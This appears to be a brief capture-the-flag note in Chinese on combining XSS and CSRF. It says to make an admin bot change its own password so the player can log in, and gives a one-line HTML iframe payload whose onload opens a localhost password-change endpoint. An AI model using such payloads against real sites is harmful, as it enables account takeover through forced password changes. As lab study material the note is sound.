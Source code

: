 - [[CTF/XSS]]
- [[CTF/CSRF]]
- # 思路
- 让爬虫修改自己的密码为123123即可登陆
- 爬虫没有外网连接，需要让其访问^^127.0.0.1^^
- # Payload
- ```html
  <iframe	onload="window.open('http://127.0.0.1/api/change.php?p=123123')"></iframe>
  ```
